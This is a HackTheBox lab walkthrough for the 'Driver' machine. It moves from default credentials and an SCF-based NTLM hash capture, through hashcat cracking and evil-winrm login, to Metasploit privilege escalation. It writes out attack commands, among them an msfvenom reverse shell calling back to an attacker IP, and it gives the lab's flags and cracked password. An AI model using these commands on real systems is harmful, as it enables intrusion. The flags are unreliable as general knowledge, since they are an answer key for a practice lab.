
# HackTheBox Walkthrough - Room: Driver

**Target IP**: 10.129.95.238  
**Difficulty**: Medium  
**Objective**: Gain access to the system, escalate privileges, and capture user and root flags.

---

## Task 1  
**Question**: What username is disclosed when looking at the HTTP response headers?

**Answer**: `admin`  
> `WWW-Authenticate: Basic realm="MFP Firmware Update Center. Please enter password for admin"`

---

## Task 2  
**Question**: What is the password for this target's login?

**Answer**: `admin`  
> Weak default credentials used.

---

## Task 3  
**Question**: What is the file extension that can be uploaded here to trigger a connection?

**Answer**: `scf`  
> Uploading `.scf` triggers Windows to try loading icon file via SMB.

Reference: [SCF Attacks](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)

---

## Task 4  
**Question**: What is the mode in Hashcat required to crack this hash format?

**Answer**: `5600`  
> Net-NTLMv2 → Hashcat Mode 5600  
> Reference: [Hashcat Example Hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)

---

## Task 5  
**Question**: What is the tony user's password?

**Answer**: `liltony`  
> Cracked using:
```bash
hashcat -m 5600 -a 0 tony.txt /usr/share/wordlists/rockyou.txt
```

---

## Submit User Flag

**Answer**: `26b5081e35e8fd5708c582e8eff43525`  

> Logged in via:
```bash
evil-winrm -i 10.129.95.238 -u tony -p liltony
```

---

## Task 7  
**Question**: What is the filename that stores the command history for PowerShell for tony?

**Answer**: `ConsoleHost_history.txt`

---

## Task 8  
**Question**: What is the Metasploit module name for exploiting the RICOH driver?

**Answer**: `ricoh_driver_privesc`  
> Seen in PowerShell:
```powershell
Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'
```

```bash
msfconsole
search RICOH
```

---

## Task 9  
**Question**: What command can be used in Metasploit to switch to an interactive logon process?

**Answer**: `migrate`  
> e.g., `migrate 4636` to explorer.exe

---

## Task 10  
**Question**: Is it possible to elevate to SYSTEM privileges with CVE-2021-1675?

**Answer**: `yes`  
> PrintNightmare allows privilege escalation.

---

## Submit Admin Flag

**Answer**: `8d7c2cb1f203d204c6c00d0688689481`  

> Process:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.84 LPORT=4444 -f exe > shell.exe
upload shell.exe to C:\Users\tony\music
run handler in Metasploit

./shell.exe
ps → migrate to explorer.exe (PID 4636)
use exploit/windows/local/ricoh_driver_privesc
set session 1, lhost tun0, run
```

---
